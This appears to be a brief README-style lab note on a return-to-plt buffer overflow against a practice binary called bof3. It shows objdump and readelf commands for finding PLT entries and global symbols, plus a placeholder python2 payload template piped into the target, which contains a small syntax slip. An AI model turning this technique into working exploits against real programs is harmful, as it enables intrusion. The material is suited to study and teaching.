 # Buffer Overflow : return to plt
```
1. TARGET FILE : bof3 <br>
2. SORUCE FILE : bof3.c <br>
```

***TASK1*** 
```
Q.) How to Find plt section in elf file? 
A.) use objdump option with -j ".plt" 

How To) 
objdump -d -M intel -j .plt bof3 
```

***TASK2*** 
```
Q.) How to Find global Variable ? 
A.) user readelf tool with -s 

How To) 
readelf -s bof3 |grep GLOBAL 
```

***TASK3*** 
```
Q.) plt Payloads? 
A.) Command This 

python2 -c "print 'a'*offset '{plt section function address}' \
        +'BBBB'+'{GLOBAL VARIABLE ADDRESS}'" | ./target_file 
```
